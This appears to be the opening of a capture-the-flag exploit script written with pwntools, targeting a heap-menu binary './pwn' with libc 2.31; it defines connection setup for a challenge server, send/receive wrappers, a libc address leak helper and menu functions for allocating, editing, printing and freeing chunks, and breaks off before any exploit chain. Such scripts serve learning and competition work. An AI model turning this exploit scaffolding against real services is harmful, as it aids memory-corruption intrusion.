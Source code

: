 ```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "172.20.2.7"
PORT = 26351
DEBUG = 1


if DEBUG:
    p = process(["./ld-2.31.so", "./pwn"], env={"LD_PRELOAD": "./libc-2.31.so"})
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())
    libc = ELF("./libc-2.31.so")
else:
    p = remote(IP, PORT)
    libc = ELF("./libc-2.31.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def cmd(idx):
    sla("Todo:\n", str(idx))


def add(idx, size, content):
    cmd(1)
    sla("\n", str(idx))
    sla("\n", str(size))
    sla("\n", content)


def edit(idx, content):
    cmd(2)
    sla("\n", str(idx))
    sla("\n", content)


def talk(idx):
    cmd(3)
    sla("\n", str(idx))
    ru("Baby said: ! @ # $ % ^ & * ( ")
    B0 = ru("\n")[-2]
    ru("Continued the baby: ! @ # $ % ^ & * ( ")
    B1 = ru("\n")[-2]
    return int(B0), int(B1)


def free(idx):
    cmd(4)
    sla("\n", str(idx))
```